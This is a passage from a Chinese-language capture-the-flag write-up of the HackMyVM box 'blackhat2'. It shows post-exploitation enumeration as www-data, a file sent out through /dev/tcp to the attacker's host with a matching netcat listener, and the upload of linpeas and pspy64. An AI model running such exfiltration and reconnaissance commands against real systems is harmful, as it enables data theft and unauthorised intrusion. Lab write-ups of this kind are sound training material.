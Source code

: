```bash
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
(remote) www-data@blackhat2.hmv:/var/www$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=e
```

尝试传一个敏感文件过来：

```bash
(remote) www-data@blackhat2.hmv:/var/www/html$ ls -la
total 852
drwxr-xr-x 2 root root   4096 Feb 26 10:19 .
drwxr-xr-x 4 root root   4096 Feb 26 10:19 ..
-rw-r--r-- 1 root root  31875 Feb 26 10:19 2021
-rw-r--r-- 1 root root  34213 Feb 26 10:19 2022
-rw-r--r-- 1 root root  36067 Feb 26 10:19 2023
-rw-r--r-- 1 root root 238753 Feb 26 10:19 dp.jpg
-rw-r--r-- 1 root root   4658 Feb 26 10:19 full-stack-apache-setup.xml
-rw-r--r-- 1 root root 485364 Feb 26 10:19 hacker.webp
-rw-r--r-- 1 root root    996 Feb 26 10:19 index.html
-rw-r--r-- 1 root root    996 Feb 26 10:19 index.php
-rw-r--r-- 1 root root   4560 Feb 26 10:19 news.php
-rw-r--r-- 1 root root   2332 Feb 26 10:19 style.css
(remote) www-data@blackhat2.hmv:/var/www/html$ cat hacker.webp > /dev/tcp/192.168.0.143/4444
```

```bash
┌──(kali💀kali)-[~/temp/blackhat2]
└─$ nc -lvnp 4444 > hacker.webp
listening on [any] 4444 ...
connect to [192.168.0.143] from (UNKNOWN) [192.168.0.125] 59234
```

本地看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824586.png" alt="image-20240502155643498" style="zoom:50%;" />

无用功？？？？

上传`linpeas.sh`和`pspy64`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824587.png" alt="image-20240502160105571" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824588.png" alt="image-20240502160126893" style="zoom:50%;" />

然后运行`pspy64`，看一下有些啥：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824589.png" alt="image-20240502160326852" style="zoom:50%;" />

